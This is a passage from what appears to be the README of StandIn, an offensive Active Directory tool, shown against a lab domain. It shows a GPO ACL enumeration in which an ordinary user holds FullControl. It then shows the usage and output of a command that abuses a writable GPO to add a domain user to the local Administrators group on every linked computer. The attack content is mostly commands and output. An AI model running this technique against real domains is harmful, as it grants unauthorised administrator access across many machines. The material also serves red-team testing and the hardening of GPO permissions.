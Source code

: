 ```
    Propagation   : InheritOnly

[+] Account       : NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
    Type          : Allow
    Rights        : ReadAndExecute, Synchronize
    Inherited ACE : False
    Propagation   : None

[+] Account       : NT AUTHORITY\Authenticated Users
    Type          : Allow
    Rights        : ReadAndExecute, Synchronize
    Inherited ACE : False
    Propagation   : None

[+] Account       : NT AUTHORITY\SYSTEM
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None

[+] Account       : REDHOOK\Domain Admins
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None

[+] Account       : REDHOOK\Enterprise Admins
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None

[+] Account       : REDHOOK\user001
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None
```

### GPO add local admin

> *With the appropriate permissions it is possible to add a domain user to the `BUILTIN\Administrators` on a vulnerable GPO.*

#### Syntax

Add user to to the `BUILTIN\Administrators` group for all linked computer objects tied to the `Shards` GPO. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\> StandIn.exe --gpo --filter Shards --localadmin user002

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[+] User Object Found
    Object   : CN=user 002
    Path     : LDAP://CN=user 002,CN=Users,DC=redhook,DC=local
```